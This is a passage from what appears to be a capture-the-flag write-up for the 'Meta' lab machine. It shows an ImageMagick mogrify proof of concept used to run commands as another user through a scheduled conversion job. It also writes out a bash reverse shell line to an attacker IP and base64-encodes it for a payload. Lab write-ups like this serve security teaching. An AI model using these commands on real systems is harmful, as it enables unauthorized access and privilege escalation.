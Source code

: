 I’ll serve that file with Python, and upload it to Meta with `wget`. I can run
the command as www-data and see what happens.

    
    
    www-data@meta:/var/www/dev01.artcorp.htb/convert_images$ mogrify -format png *.*    
    sh: 1: : Permission denied
    mogrify: MagickCore/image.c:1168: DestroyImage: Assertion `image != (Image *) NULL' failed.
    Aborted
    

It created a file:

    
    
    www-data@meta:/var/www/dev01.artcorp.htb/convert_images$ cat /dev/shm/.0xdf 
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

This is where I figured out that the name needed to match what was in the
file. If there’s a mismatch:

    
    
    www-data@meta:/var/www/dev01.artcorp.htb/convert_images$ mogrify -format png *.*
    mogrify: unable to open image 'poc.svg': No such file or directory @ error/blob.c/OpenBlob/3537.
    mogrify: unable to open file 'poc.svg': No such file or directory @ error/msl.c/ProcessMSLScript/7839.
    mogrify: non-conforming drawing primitive definition `image' @ error/draw.c/RenderMVGContent/4458.
    

It’s complaining that it can’t open `poc.svg`.

I’ll delete `/dev/shm/.0xdf`, make sure the name is correct, and wait for the
minute to roll over. Once it does, `.0xdf` is back, and this time, it’s owned
by thomas and the contents show it was run by thomas:

    
    
    www-data@meta:/var/www/dev01.artcorp.htb/convert_images$ ls -la /dev/shm/
    total 3012
    drwxrwxrwt  2 root     root          80 Jun  3 17:08 .
    drwxr-xr-x 16 root     root        3080 Jun  3 14:40 ..
    -rw-r--r--  1 thomas   thomas        54 Jun  3 17:08 .0xdf
    -rwxr-xr-x  1 www-data www-data 3078592 Dec  6 15:32 pspy64 
    www-data@meta:/var/www/dev01.artcorp.htb/convert_images$ cat /dev/shm/.0xdf
    uid=1000(thomas) gid=1000(thomas) groups=1000(thomas)    
    

#### Shell

To avoid special characters, I’ll base64 encode a [bash reverse
shell](https://www.youtube.com/watch?v=OjkVep2EIlw):

    
    
    oxdf@hacky$ echo 'bash  -i >& /dev/tcp/10.10.14.6/444 0>&1 ' | base64
    YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDQgMD4mMSAK
    

I’ve added a couple extra spaces to get rid of a `+` and the `=`. Now I’ll
generate the payload:
